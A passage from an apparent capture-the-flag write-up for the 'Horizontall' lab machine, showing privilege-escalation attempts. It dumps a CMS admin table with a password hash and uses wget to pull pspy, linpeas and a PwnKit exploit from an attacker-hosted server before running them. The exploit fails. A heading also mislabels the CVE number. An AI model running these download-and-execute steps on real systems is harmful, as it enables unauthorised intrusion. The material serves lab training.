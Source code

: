 ```bash
8 rows in set (0.01 sec)

mysql> select * from strapi_administrator;
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$1yLkM4aqjXKnebsEQdpPZ.lbycUevYMO/CmeEOjF/TR5qXPrpFJ7S | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
1 row in set (0.00 sec)
```
We find some data, but it is all related to the strapi CMS and not useful for escalating privileges.

### pspy32
We can try to upload the `pspy32s` binary to the machine via base64 encoding and spying on root's crontabs. Since the binary is too heave, it is a better idea to transfer it via a pyhton3 http server:
```bash
strapi@horizontall:~/myapi$ wget http://10.10.16.5:8000/pspy32s
strapi@horizontall:~/myapi$ mv pspy32s /tmp
strapi@horizontall:~/myapi$ cd /tmp
strapi@horizontall:/tmp$ ./pspy32s -c -i 100 | grep UID=0
```
Looks like there are no cron jobs set up in the server.

### linpeas.sh
Let's try the same thing with linpeas.sh:
```bash
strapi@horizontall:/tmp$ wget http://10.10.16.5:8000/linpeas.sh
strapi@horizontall:/tmp$ chmod +x linpeas.sh
strapi@horizontall:/tmp$ ./linpeas.sh
```
From its output we discover:
- Sudo version: `1.8.21p2` -> Vuln to CVE-2021-4304
- Active ports:
    - `8000` -> ?
    - `3306` -> mysql
    - `1337` -> ?
- Users with console: `root`,`developer`,`strapi`
- Api keys:
  - `mySecretKey1`
  - `mySecretKey2`

### CVE-2021-4304
As we can see, the system is reported to be vulnerable to [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034), so we can try to escalate privileges:
```bash
strapi@horizontall:/tmp$ wget http://10.10.16.5:8000/4034.tar.gz
strapi@horizontall:/tmp$ tar -xf 4034.tar.gz 
strapi@horizontall:/tmp$ cd CVE-2021-4034/
strapi@horizontall:/tmp/CVE-2021-4034$ make
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
strapi@horizontall:/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./cve-2021-4034)
```
This exploit resulted unsuccessful, as the exploit is not working on the system.
